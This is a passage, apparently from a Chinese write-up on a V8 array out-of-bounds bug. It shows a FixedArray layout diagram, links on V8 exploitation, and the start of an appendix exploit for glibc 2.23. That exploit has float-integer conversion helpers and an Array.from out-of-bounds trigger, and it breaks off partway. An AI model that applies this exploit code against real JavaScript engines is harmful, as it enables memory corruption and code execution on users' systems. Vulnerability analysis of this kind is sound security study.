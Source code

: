 ```
//继承关系
HeapObject--&gt;FixedArrayBase--&gt;FixedArray
  |                                |
  v                                v
  map                        length

  //数据结构
  FixedArray 
  |__ map__|
  |_length_|
  | values |
  |        ...  |
```



## 扩展阅读

[ES6-Symbol.iterator 迭代器](https://www.cnblogs.com/set-promise/p/10810734.html)<br>[JavaScript 中 call()、apply()、bind() 的用法](https://www.runoob.com/w3cnote/js-call-apply-bind.html)<br>[从一道CTF题零基础学V8漏洞利用](https://www.freebuf.com/vuls/203721.html)<br>[821137-V8引擎数组越界漏洞分析及利用](https://www.sunxiaokong.xyz/2020-01-16/lzx-roll-a-d8/)



## 附录

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8libc%E6%B3%84%E9%9C%B2%E7%9A%84exploit"></a>使用libc泄露的exploit

适用情况：只能在Ubuntu16.04（glibc2.23）下成功exploit，其他版本需要调整

```
class ChangeType{
    constructor(){
        this.buf=new ArrayBuffer(8);
        this.f64=new Float64Array(this.buf);
        this.u32=new Uint32Array(this.buf);
    }
    f2i(val){
        this.f64[0]=val;
        return this.u32[1]*0x100000000+this.u32[0];
    }
    i2f(val){
        this.u32[0]=parseInt(val%0x100000000);
        this.u32[1]=parseInt((val-this.u32[0])/0x100000000);
        return this.f64[0];
    }

}
function hex(x)
{
   return '0x' + (x.toString(16)).padStart(16, 0);
}
var ct=new ChangeType(); 

let oobArray = [1.1];  //float
let arrays=[];    
let objs=[];        //for leak                            
let maxSize = 1028 * 8;            //8224    

Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ =&gt; ( 
  {
    counter : 0,
    next() {
```